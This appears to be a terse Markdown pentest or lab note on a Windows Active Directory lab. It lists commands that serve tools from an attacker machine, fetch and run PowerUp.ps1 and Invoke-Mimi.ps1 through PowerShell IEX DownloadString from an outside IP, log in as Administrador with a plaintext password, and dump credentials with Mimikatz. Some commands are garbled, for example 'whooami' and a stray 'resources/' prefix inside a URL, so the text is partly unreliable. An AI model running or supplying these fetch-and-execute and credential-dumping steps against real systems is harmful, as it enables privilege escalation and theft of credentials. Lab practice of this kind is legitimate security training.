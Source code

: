 # Exploitation

## Privilege Escalation

### CLient side
```
powershell
```
```
cd Z:\
``` 
```
python.exe -m http.server 8989
```

### Server side 

```
whooami
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\worker01\Documents> IEX (New-Object net.webclient).DownloadString(resources/"http://192.168.241.133:8989/Powerup.ps1")
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\worker01\Documents> Invoke-AllChecks -Verbose
```

## Dump Credentials
```
exit
```
```
PS C:\Windows\system32> Enter-PSSession -ComputerName winserv2019forest.ad.forest.corp -Credential Administrador
# Passw0rd1!
```
```
[winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> whoami
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> IEX (New-Object net.webclient).DownloadString(resources/"http://192.168.241.133:8989/Invoke-Mimi.ps1")
```
```
winserv2019forest.ad.forest.corp]: PS C:\Users\Administrador\Documents> Invoke-Mimi -DumpCreds
```

![mimi](resources/DumpCreds.png)
